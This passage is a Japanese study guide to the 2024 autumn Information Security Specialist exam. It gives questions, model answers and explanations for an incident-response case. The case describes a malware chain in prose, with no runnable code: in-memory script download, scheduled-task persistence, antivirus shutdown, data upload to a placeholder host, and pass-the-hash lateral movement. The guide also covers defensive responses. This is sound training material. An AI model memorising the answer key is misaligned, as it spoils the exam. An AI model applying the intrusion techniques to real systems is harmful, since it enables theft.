# 令和6年度 秋期 情報処理安全確保支援士試験 午後 設問別解説 <!-- omit in toc -->

> 出典：IPA 令和6年度秋期 情報処理安全確保支援士試験 午後 問題・解答例（©2024 独立行政法人情報処理推進機構）
> 形式：問1〜問4から**2問選択**／12:30〜15:00（2時間30分）
> 構成：各設問について「**設問文 → 解答 → 解説**」の順に記載。**解答**はIPA公表の解答例であり、記述式は同趣旨であれば可。

- [問1 インシデントレスポンス（L社）](#問1-インシデントレスポンスl社)
- [問2 ドメイン名変更（A社）](#問2-ドメイン名変更a社)
- [問3 クレジットカード情報の漏えい（J社）](#問3-クレジットカード情報の漏えいj社)
- [問4 セキュリティ診断（M社・B社）](#問4-セキュリティ診断m社b社)
- [全体の学習ポイント](#全体の学習ポイント)

---

## 問1 インシデントレスポンス（L社）

### 題材の整理

| 項目         | 内容                                                                                                                                                                              |
| ------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 企業         | **L社**：ソフトウェア開発会社。<br>情シス部の**X主任**と**Yさん**が対応                                                                                                           |
| 端末構成     | 従業員は**シンクライアントPC**から<br>**RDP**で**仮想PC**に接続して業務を行う                                                                                                     |
| 外部サービス | **E社のSaaS**：プロキシサービス／<br>マルウェア対策サービス／<br>メールサービス／DNSサービス                                                                                      |
| 発端         | 12月6日、**プロキシサービスからの<br>アラートメール**。PC-Aが<br>`https://○○○.com/` へのアクセスを<br>拒否され、そのURLが**ベンダー拒否リストの<br>マルウェア感染カテゴリ**に一致 |



**表1 各構成要素の仕様・機能（設問の根拠になる箇所）**

| 構成要素                       | 押さえるべき仕様                                                                                                                                                                                                                                                  |
| ------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **ドメインサーバ**             | ドメイン名**ad01**。従業員1人に1つの<br>ドメインユーザー。**プロキシ・メール・<br>L社内ホストへのログオン認証**に利用される                                                                                                                                       |
| **プロキシサービス**           | **Qプログラム**をL社内ホストに入れて利用。<br>HTTP/HTTPSを**全て中継**。HTTPSを復号して<br>URLフィルタリング後、再暗号化。<br>リストは**管理者許可 → 管理者拒否 →<br>ベンダー拒否**の順に適用。<br>管理者拒否リストで拒否されると<br>**情シス部にアラートメール** |
| **マルウェア対策<br>サービス** | 検知時に情シス部へアラートメール。<br>**マルウェア対策ソフトの稼働状況の確認**<br>ができる                                                                                                                                                                        |
| **仮想PC**                     | 従業員1人1台。シンクライアントPCから<br>**RDP**で接続。アカウントは**ドメインユーザー**<br>で、仮想PC上の**ローカルアドミニストレーター<br>権限**をもつ。ホスト名は **PC-x**                                                                                      |
| **ファイルサーバ**             | ホスト名 **filesv**。**社外秘情報L**を保管。<br>仮想PCには保管しないルール。<br>**利用時はドメインサーバでの認証が必要**                                                                                                                                          |

**表2 Fツールの出力ファイル**

| ファイル名 | 記載される内容                                                                       |
| ---------- | ------------------------------------------------------------------------------------ |
| file.csv   | ファイルの生成、参照、更新、削除及び**実行**のログ                                   |
| srv.csv    | サービス及び**タスク**の登録、削除、開始及び停止のログ                               |
| auth.csv   | **認証の成功と失敗**、アカウントの作成、特権の利用、<br>イベントログの消去などのログ |
| net1.csv   | **Qプログラムのログ**（＝どこへ接続を試みたか）                                      |
| net2.csv   | **プロセスごとの1時間のネットワーク送受信量**の記録                                  |
| time.csv   | 上記4つを結合して**時刻順に並べ替えたもの**                                          |

### インシデントの全体像を時系列で読む

**まずこれを押さえると全設問が解ける。** 表3（time.csv）と図4（C社の解析結果）を突き合わせる。

| 日時                   | 表3の事象                                                         | 図4での対応                                  | 攻撃フェーズ             |
| ---------------------- | ----------------------------------------------------------------- | -------------------------------------------- | ------------------------ |
| 12/04 22:12:28         | `○○search.com/` に接続を試みた                                    | —                                            | 入口（検索サイト）       |
| 12/04 22:20:34         | `△△△.com/` に接続を試みた                                         | —                                            | **i.ps1 のダウンロード** |
| 12/04 22:32:48         | **i.ps1 が作成された**                                            | —                                            | 配送                     |
| 12/04 22:33:12         | **i.ps1 が PowerShell で実行された**                              | —                                            | エクスプロイト           |
| 12/04 22:33:21         | **"タスク名：install" が登録された**                              | i.ps1 (a)                                    | **永続化**               |
| 12/04 22:33:22         | "タスク名：install" が実行された                                  | i.ps1 (b)                                    | —                        |
| 12/04 22:33:25         | `△△△.com/` に接続を試みた                                         | **q.ps1 をメモリ上に展開**                   | **ファイルレス実行**     |
| 12/04 22:34:28         | **VSCAN_SVC が停止された**                                        | q.ps1 (c)                                    | **防御回避**             |
| 12/04 22:38:12         | Dドライブのファイルが参照された                                   | q.ps1 (d)                                    | **探索**                 |
| 12/04 22:42:06         | **`\\filesv` のファイルが参照された**                             | q.ps1 (d)                                    | 探索                     |
| 12/04 22:59:07         | **s.rar が作成された**                                            | q.ps1 (d) RARでアーカイブ                    | **収集**                 |
| 12/04 23:00:05         | `△△△.com/` に接続を試みた                                         | q.ps1 (d) `/v/upl` へアップロード            | **持出し**               |
| 12/04 23:10:05         | s.rar が削除された                                                | —                                            | **痕跡消去**             |
| 12/04 23:31:15〜       | PC-A → 各PCへ **RDP接続を試行**                                   | q.ps1 (h)                                    | **横展開**               |
| **12/04 23:32:51**     | **PC-A → PC-C に、`.\administrator` で、<br>RDP接続が許可された** | q.ps1 (i) 成功したら<br>i.ps1 の実行を試みる | **横展開成功** ← ★       |
| 12/05〜12/06 1時間おき | `○○○.com/` に接続                                                 | q.ps1 (e) コネクトバック                     | **C2（ビーコン）**       |
| 12/06 02:34:03/04      | `○○○.com/` が**拒否**された                                       | —                                            | ベンダー拒否リスト入り   |
| 12/06 02:34:05以降     | `□□□.com/` に接続                                                 | q.ps1 (f) フォールバック先                   | **C2（代替）**           |

**表4（net2.csv）が示すもの**

| 日時               | プロセス           |           送受信量 | 意味                 |
| ------------------ | ------------------ | -----------------: | -------------------- |
| 12/04 23:05:40     | Webブラウザ        |             4.5 MB | 通常                 |
| **12/04 23:05:40** | **powershell.exe** |       **810.0 MB** | **情報持出しの痕跡** |
| 12/05 00:05:40     | powershell.exe     |           196.0 MB | 持出しの続き         |
| 12/06 00:05:40〜   | powershell.exe     | **0.1 MB**（毎時） | **C2ビーコンの痕跡** |

表5（プロキシ通信ログ）の `△△△.com/v/upl` 送受信量 **511.0MB** と符合する。



---

### 設問1(1)　空欄a　感染が拡大したホスト名

> **設問1**　〔暫定対策と追加調査の実施〕について答えよ。
> **(1)** 本文中及び図3中の　**a**　に入れる適切な**ホスト名**を答えよ。
>
> （本文）X主任とYさんは、PC-Aがマルウェアに感染し、PC-A及び　**a**　上のファイルのほか、　**b**　上のファイルのうち、アカウント　**c**　でアクセス可能なファイルがインターネットに送信されているおそれがあると考え、図3の暫定対策と追加調査を行った。
>
> （図3 追加調査1）表3から、PC-Aから　**a**　にマルウェア感染が拡大している可能性があると考えられるので、　**a**　についてPC-Aと同様の調査を行う。

**解答**：**PC-C**

**解説**

**表3のRDP接続ログを1行ずつ見る**

| 日時                     | 事象                                  | 結果               |
| ------------------------ | ------------------------------------- | ------------------ |
| 12/04 23:31:15           | PC-A → ドメインサーバ、`ad01\user019` | 失敗               |
| 12/04 23:32:05           | PC-A → PC-B、`ad01\user019`           | 失敗               |
| 12/04 23:32:16 / :22     | PC-A → PC-B、`.\administrator`        | 失敗               |
| 12/04 23:32:35           | PC-A → PC-C、`ad01\user019`           | 失敗               |
| **12/04 23:32:51**       | **PC-A → PC-C、`.\administrator`**    | **許可された** ← ★ |
| 12/04 23:35:01〜23:37:54 | PC-A → PC-D, E, F, G …                | すべて失敗         |

さらに**表3 注4：「（省略）は RDP接続の失敗ログだけである」**→ **許可されたのはPC-Cの1件のみ**と確定できる。

**なぜ「許可された」＝「感染」なのか**

図4 q.ps1 の動作：

> (h) ping コマンドを使ってホストを探索し、RDP接続を試みる。**RDP接続に失敗した場合、何もしない。**
> (i) **RDP接続に成功すると、接続先で i.ps1 の実行を試みる。**

つまり **RDP接続が成功したホスト＝i.ps1 が実行されたホスト＝感染したホスト**。



**+α：なぜ `.\administrator` だけ成功したのか**

| 根拠          | 記述                                                                                                                 |
| ------------- | -------------------------------------------------------------------------------------------------------------------- |
| 表1 仮想PC    | 従業員が利用するアカウントは、ドメインユーザーであり、<br>仮想PC上の**ローカルアドミニストレーター権限**をもっている |
| 表3 注記1     | domainhost が **"."** の場合は、userNNN は<br>**仮想PCのローカルユーザー**であることを示す                           |
| 図4 q.ps1 (g) | **パスワード又はパスワードハッシュをPCのメモリ上から窃取する**                                                       |

q.ps1 (g) で **PC-Aのローカル administrator の資格情報**を奪い、それを使って横展開した。**PC-Cだけ成功した**＝PC-Aとローカル管理者のパスワード（ハッシュ）が同じだった、と読める。

| 論点 | 内容                                                                                                                       |
| ---- | -------------------------------------------------------------------------------------------------------------------------- |
| 攻撃 | **Pass the Hash（PtH）**：平文パスワードを知らなくても、<br>窃取したNTLMハッシュで認証できる                               |
| 原因 | **ローカル管理者パスワードの使い回し**                                                                                     |
| 対策 | **LAPS**（ホストごとにローカル管理者パスワードを<br>ランダム化・自動管理）、Credential Guard、<br>ローカル管理者権限の剥奪 |

> **落とし穴**：PC-B を選ばない。PC-Bは**失敗**している。「許可された」という1行だけを拾えるかが勝負。

---

### 設問1(2)　空欄b　参照されたホスト名

> **(2)** 本文中の　**b**　に入れる適切な**ホスト名**を答えよ。

**解答**：**filesv**

**解説**

**本文の根拠**

| 記述                                                                                                                                                      | 出典               |
| --------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------ |
| `12/04 22:42:06　\\filesv のファイルが参照された`<br>（注3：「`\\filesv` のファイルの参照ログだけである」）                                               | 表3                |
| L社の顧客情報、設計書など、社外秘に指定されている情報<br>（**社外秘情報L**）を保管する。……**ホスト名は filesv である**                                    | 表1 ファイルサーバ |
| (d) 特定のディスク領域と**ネットワークドライブ**のファイルを<br>RAR形式でアーカイブファイルにまとめ、<br>`https://△△△.com/v/upl` を使ってアップロードする | 図4 q.ps1          |



送信されたおそれがあるのは **①PC-A上のファイル ②PC-C（感染拡大先）上のファイル ③filesv上のファイル**の3つ。空欄bは③に当たる。

**なぜ「アカウント c でアクセス可能なファイル」と限定されるのか**

表1 ファイルサーバ：「**利用時はドメインサーバでの認証が必要である**」。つまりfilesv上の全ファイルが盗まれたわけではなく、**侵害されたアカウントの権限で読めるファイルだけ**が対象。影響範囲を正確に絞り込むための記述であり、実務のインシデント対応でも極めて重要な視点。

> **落とし穴**：「ファイルサーバ」と書かない。設問が「適切な**ホスト名**を答えよ」と指定しており、表1に「ホスト名は filesv である」と明記されている。

---

### 設問1(3)　空欄c　侵害されたアカウント名

> **(3)** 本文中及び図3中の　**c**　に入れる適切な**アカウント名**を、**表3の注記1に従って**答えよ。
>
> （表3 注記1）アカウント名の表記は **domainhost\userNNN** としており、domainhost にはドメイン名又はホスト名が、userNNN には利用者IDがそれぞれ入る。ただし、domainhost が "." の場合は、userNNN は仮想PCのローカルユーザーであることを示す。

**解答**：**ad01\user019**

**解説**

**本文の根拠**

| 記述                                                          | 出典                          |
| ------------------------------------------------------------- | ----------------------------- |
| ドメイン名 **ad01** というL社の社内ドメインを管理する         | 表1 ドメインサーバ            |
| 利用者ID欄はすべて **ad01\user019**                           | 表5（送信元がPC-Aの通信ログ） |
| 「PC-A から PC-C に、**ad01\user019** で、RDP接続が失敗した」 | 表3                           |

PC-Aを使っている従業員のドメインユーザーが `ad01\user019`。このアカウントで、

- プロキシサービスを利用して外部と通信していた（表5）
- ファイルサーバ filesv にアクセスできる（表1：利用時はドメインサーバでの認証が必要）

したがって「**アカウント `ad01\user019` でアクセス可能なファイル**」が漏えいのおそれがある範囲。

**空欄dとの連動**：図3 暫定対策1「マルウェア感染拡大とこれ以上のファイルの送信を防ぐために、ドメインサーバでアカウント　**c**　の　**d**　を行う」→ **ad01\user019 の無効化**。

> **落とし穴**：`user019` とだけ書かない。注記1が「**domainhost\userNNN**」という表記を指定しているので、**ドメイン名 ad01 を含めて**書く。設問も「表3の注記1に従って」とわざわざ指示している。

---

### 設問1(4)　空欄d　ドメインサーバでの暫定対策（10字以内）

> **(4)** 図3中の　**d**　に入れる適切な対策を**10字以内**で答えよ。
>
> （図3 暫定対策1）マルウェア感染拡大とこれ以上のファイルの送信を防ぐために、ドメインサーバでアカウント　**c**　の　**d**　を行う。

**解答**：**無効化**

**解説**

図3 暫定対策1の目的は「**マルウェア感染拡大とこれ以上のファイルの送信を防ぐ**」。侵害されたドメインユーザー `ad01\user019` を**無効化**すれば、

| 防げること                                    | 理由（表1より）                                                                               |
| --------------------------------------------- | --------------------------------------------------------------------------------------------- |
| ファイルサーバへのアクセス                    | 利用時はドメインサーバでの認証が必要                                                          |
| プロキシサービスの利用                        | Qプログラムがドメインサーバに接続され、<br>**ドメインユーザーが認証されると、利用可能になる** |
| 他ホストへのRDP接続<br>（ドメインユーザー分） | ログオンは、ドメインユーザーの利用者IDと<br>パスワードで行う                                  |

**なぜ「削除」ではなく「無効化」なのか（実務上の重要ポイント）**



インシデント対応中にアカウントを**削除**すると、SID（セキュリティ識別子）が失われて**誰の操作かを追跡できなくなり**、フォレンジックの証拠が損なわれる。**無効化なら、アクセスは即座に止めつつ証拠は保全できる**。10字以内という制限も「無効化」を強く示唆している。

**2つの暫定対策の役割分担**

| 対策 | 場所                                                 | 目的                                             |
| ---- | ---------------------------------------------------- | ------------------------------------------------ |
| 1    | **ドメインサーバ**：アカウント無効化                 | 認証を止める<br>（内部リソースへのアクセス遮断） |
| 2    | **プロキシサービス**：URLフィルタリング<br>（下線①） | 外部への通信を止める<br>（C2通信と持出しの遮断） |

> **落とし穴**：「削除」「パスワード変更」は減点されうる。証拠保全と即効性を両立するのは**無効化**。

---

### 設問1(5)　下線①　プロキシサービスで行う対策

> **(5)** 図3中の下線①について、対策の内容を、具体的に答えよ。
>
> （図3 暫定対策2）ファイルの送信を防ぐために、**①プロキシサービスで対策を行う。**

**解答**：**全てのドメインユーザーに対して、`https://△△△.com/`、`https://□□□.com/` 及び `https://○○○.com/` を管理者拒否リストに登録する。**

**解説**

**表1 プロキシサービスのURLフィルタリング機能**

| リスト                 | 誰が設定できるか  | 本件で使えるか                                                                        |
| ---------------------- | ----------------- | ------------------------------------------------------------------------------------- |
| **管理者許可リスト**   | 管理者            | ✕ 許可のリストなので用途が違う                                                        |
| **管理者拒否リスト**   | **管理者**        | ✅ **L社が即座に手を打てる唯一のリスト**。<br>拒否されると情シス部に**アラートメール** |
| **ベンダー拒否リスト** | E社から日次で提供 | ✕ **L社が編集できない**                                                               |

**攻撃者のC2／持出し先（3つ）**

| URL                | 役割（図4）                                                | 表5での状況                                        |
| ------------------ | ---------------------------------------------------------- | -------------------------------------------------- |
| `https://△△△.com/` | i.ps1・q.ps1 の配布元、<br>`/v/upl` でファイルアップロード | 許可                                               |
| `https://○○○.com/` | (e) 1時間おきのコネクトバック（主C2）                      | 12/06 02:34 から拒否<br>（ベンダー拒否リスト入り） |
| `https://□□□.com/` | (f) リトライ失敗時のコネクトバック（代替C2）               | 許可                                               |

**3つの要素すべてが必要**



**① なぜ「管理者拒否リスト」か**：ベンダー拒否リストはE社が日次で提供するもので**L社が編集できない**。実際 `□□□.com` と `△△△.com` はまだ載っていない。管理者許可リストは「許可」のリストなので用途が違う。

**② なぜ3つ全部か**：`○○○.com` は12/06 02:34から拒否されているが、これは**ベンダー拒否リストに載ったため**。ベンダーのリストは変更されうるし、そもそも `□□□.com` へのフォールバックが動いている。攻撃者の通信先は**全部塞ぐ**のが原則。

**③ なぜ「全てのドメインユーザー」か（ここが差のつくポイント）**：URLフィルタリングは「**ドメインユーザーごとに**」設定する仕組み。`ad01\user019` だけに設定しても、

- **PC-C も感染している**（別のドメインユーザーが使っている）
- 追加調査2で「ほかにマルウェアに感染しているL社内ホストがないか調査」とあるとおり、**未発見の感染ホストがあるかもしれない**

したがって **全ドメインユーザーに適用する**必要がある。

**+α：副次的効果**

管理者拒否リストで拒否されると**情シス部にアラートメールが送付される**。つまりこの設定は「遮断」と同時に「**感染ホストの発見器**」にもなる（→ 下線②の調査につながる）。

> **落とし穴**：「△△△.com をブロックする」だけでは3要素のうち1つしか書けていない。**リストの種類／対象URL（3つ）／適用範囲（全ユーザー）**の3点を必ず入れる。

---

### 設問1(6)　下線②　マルウェア感染ホストの調査内容

> **(6)** 図3中の下線②について、調査の内容を、具体的に答えよ。
>
> （図3 追加調査2）プロキシサービスのログで、PC-A、　**a**　のほかに**②マルウェアに感染しているL社内ホストがないか調査を行う。**

**解答**：**`https://○○○.com/`、`https://△△△.com/` 又は `https://□□□.com/` に通信したL社内ホストがないか調査する。**

**解説**

**本文の根拠**

| 記述                                                                                                                                    | 効果                                         |
| --------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| Qプログラムがインストールされた**L社内ホストから<br>インターネットへのHTTP通信及びHTTPS通信を全て中継する**<br>（表1 プロキシサービス） | **全ホストの外部通信が<br>ログに残っている** |
| q.ps1 (e)(f)：感染ホストは必ず `○○○.com` または<br>`□□□.com` にコネクトバックする（図4）                                                | **IoCになる**                                |
| i.ps1：`△△△.com/v/q.ps1` をダウンロードする（図4）                                                                                      | 同上                                         |



今回の調査で判明した**3つのURLがIoC（侵害指標）**になる。プロキシサービスは**全ホストのHTTP/HTTPS通信を中継している**ので、このログを串刺しで検索すれば、**まだ気づいていない感染ホストを一網打尽にできる**。

**+α：なぜ「プロキシサービスのログ」なのか**

Fツールの出力（time.csv 等）は**1台ずつ実行しないと得られない**（図2：「インシデント対応時に**1台の仮想PC上で**……収集元から収集し」）。全従業員分の仮想PCを1台ずつ調べるのは時間がかかる。一方**プロキシのログは既に全ホスト分が集約されている**ので、**最速で全体を絞り込める**。

この「**まず集約済みログで当たりをつけ、絞り込んだホストを精査する**」という順序は、インシデント対応の基本戦略。

> **落とし穴**：3つのURLをすべて挙げる。1つだけだと、そのURLを使っていない感染ホストを見逃す。

---

### 設問1(7)　下線③　全ホストに対する新たな調査

> **(7)** 本文中の下線③について、調査の内容を、具体的に答えよ。
>
> （本文）Yさんは図4の解析結果から、図3の追加調査の1及び2では、図4で解析したマルウェアが、**今後、活動する可能性があるL社内ホストを見逃したおそれがある**と考えた。Yさんは**③追加調査の3として、L社内ホストの全てに対して新たな調査を行う**必要があるのではないかとX主任に相談した。

**解答**：**タスク名が install であるタスクが登録されているL社内ホストがないか調査する。**

**解説**

**本文の根拠（図4 i.ps1 の動作）**

> (a) **タスクを登録する**。登録するタスクの設定は次のとおりである。既に同じタスク名のタスクが登録されている場合は何もしない。
> 　**タスク名：install**
> 　実行時に使うアカウント：タスク登録時に、ログオンしているアカウント
> 　登録するスクリプトの動作：`https://△△△.com/v/q.ps1` をメモリ上に展開し、実行する。
> 　**タスク実行のトリガー：ログオン時に実行される。**
> (b) タスクを登録した後に、(a)で登録したタスクを実行する。

**「まだ通信していない感染ホスト」を見つける**



**追加調査1・2の限界**

| 調査                      | 何を探すか                                   | 見逃すもの                   |
| ------------------------- | -------------------------------------------- | ---------------------------- |
| 追加調査1（PC-Cの精査）   | PC-Cの証拠データ                             | PC-C以外                     |
| 追加調査2（プロキシログ） | **外部と通信した**ホスト                     | **まだ通信していない**ホスト |
| **追加調査3**             | **install タスクが<br>登録されている**ホスト | —                            |

i.ps1 が実行されただけで q.ps1 がまだ動いていないホストは、**外部通信の痕跡がない**。しかし **install タスクは確実に登録されている**。しかもトリガーは「**ログオン時**」なので、**次にその仮想PCに従業員がログオンした瞬間に発動する**。これが「今後、活動する可能性があるL社内ホスト」の意味。

**+α：永続化（Persistence）の調査**

MITRE ATT&CK の **T1053 Scheduled Task/Job**。インシデント対応では「通信の痕跡」だけでなく「**永続化機構の痕跡**」を必ず探す。

| 典型的な調査対象                                  | Fツールでの対応                              |
| ------------------------------------------------- | -------------------------------------------- |
| スケジュールされたタスク／cron                    | **srv.csv**（サービス及び**タスク**の登録…） |
| サービスの登録                                    | srv.csv                                      |
| レジストリの Run キー、<br>スタートアップフォルダ | （図2：レジストリなどの証拠データを収集）    |
| WMIイベントサブスクリプション                     | —                                            |

> **落とし穴**：「Fツールを全ホストで実行する」だけでは何を探すか不明。**「タスク名 install のタスクが登録されているか」**という具体的な調査対象を書く。

---

### 設問1(8)　下線④　マルウェアの活動を自動的に検出する仕組み（二つ）

> **(8)** 本文中の下線④について、検出する仕組みを、**二つ**答えよ。
>
> （本文）X主任は同意し、調査には時間が掛かるので、調査と並行して、**④図4のマルウェアの活動を自動的に検出する新たな仕組みを作る**ように指示した。

**解答（順不同で二つ）**

1. **マルウェア対策サービスのログから、マルウェア対策ソフトが停止したL社内ホストを検出する。**
2. **ドメインサーバのログから、RDP接続をくり返しているL社内ホストを検出する。**

**解説**

**「マルウェア本体」ではなく「振る舞い」を検出する**

| 図4のマルウェアの特徴的な活動                                   | 観測できる場所（表1）                                                                                    |
| --------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| **(c) マルウェア対策ソフトを停止する**                          | マルウェア対策サービス<br>「**マルウェア対策ソフトの稼働状況の確認**ができる」                           |
